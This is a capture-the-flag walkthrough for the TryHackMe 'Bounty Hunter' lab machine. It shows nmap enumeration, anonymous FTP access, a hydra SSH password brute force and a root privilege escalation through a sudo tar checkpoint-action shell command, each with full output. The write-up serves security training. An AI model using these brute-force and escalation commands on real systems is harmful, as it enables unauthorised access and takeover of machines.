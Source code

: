 ```yaml
---
title: TryHackMe - Bounty Hunter Walkthrough
date: 2020-08-05
asciinema: true
---
```


{{< figure src="/media/bounty-card.png"  title="Credits to Sevuhl" >}}

This challenge is a straightforward Linux box involving simple enumeration, credential bruteforcing and abusing user `sudo` privileges on an unsafe binary.

---

# Initial reconnaissance

## Enumerating running services

Command run: `$ sudo nmap -sS -Pn 10.10.211.186 -oN nmap-syn.txt`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-04 22:51 EDT
Nmap scan report for 10.10.211.186
Host is up (0.39s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
We can see three open ports `21`, `22` and `80`. Let's perform full nmap scans of these ports:

Command run: `$ nmap -A -p21,22,80 10.10.211.186 -oN nmap-full.txt`

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.4.10.122
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.52 seconds
```

## A quick look at the web service

{{< figure src="/media/bounty-webservice.png" >}}

## Enumerating FTP service

The FTP service allows anonymous logins, let's see what we can find there.

Command run: `$ ftp 10.10.211.186 21`

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ ftp 10.10.211.186 21
Connected to 10.10.211.186.
220 (vsFTPd 3.0.3)
Name (10.10.211.186:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
ftp>
```

We download the two text files to our host with the `get` command and read their content. The `task.txt` file contains the answer to Task#3

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat task.txt
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

The `locks.txt` contains a set of what could be credentials for another service (hosted on web server, or perhaps SSH passwords).

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ cat locks.txt | head -n5
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
```

Task 4 hints us that the password is indeed for some SSH credentials. We just need a list of usernames to match. Based on the few information we can get out of the web service we can draft the following `potential-users.txt` list:

```
lin
vicious
ed
spike
faye
ein
edward
redeye
```

# Brute-forcing SSH

There are a few ways to go abount bruteforcing access to `ssh`, one commonly used tool to perform such tasks is `hydra` !(https://github.com/vanhauser-thc/thc-hydra)

```
kali@kali:/mnt/hgfs/TryHackMe/bounty-hunter$ hydra -L potential-users.txt -P locks.txt ssh://10.10.21
1.186
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-04 23:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 208 login tries (l:8/p:26), ~13 tries per task
[DATA] attacking ssh://10.10.211.186:22/
[22][ssh] host: 10.10.211.186   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-04 23:31:51
```

We found a valid SSH credential `lin:RedDr4gonSynd1cat3`, this will answer Task 4.

# Accessing the machine

Command run: `$ ssh lin@10.10.211.186`

```
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7 17:06 .
drwxr-xr-x 19 lin lin 4096 Jun  7 22:17 ..
-rw-rw-r--  1 lin lin   21 Jun  7 17:06 user.txt
```

## Escalating to root

One of the first things to check when looking for a privilege escalation vector on Linux is to verify what commands can the current user run with elevated privileges. This is done with the following command: `$ sudo -l`. Note that you will require the current user's `sudo` password to be able to run the command.

```
lin@bountyhacker:/home$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

> NAME
     tar — The GNU version of the tar archiving utility

If `tar` runs in privileged context, it may be used to access the file system, escalate or maintain access with elevated privileges if enabled on sudo.

`sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

```
lin@bountyhacker:/home$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# ls -la /root   
total 40
drwx------  5 root root 4096 Jun  7 21:31 .
drwxr-xr-x 24 root root 4096 Jun  6 06:36 ..
-rw-------  1 root root 2694 Jun  7 22:25 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7 15:00 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7 17:16 root.txt
-rw-r--r--  1 root root   66 Jun  7 21:13 .selected_editor
drwx------  2 root root 4096 Jun  7 19:29 .ssh
```

---

Hope you enjoyed the write-up, thank you for reading 👏

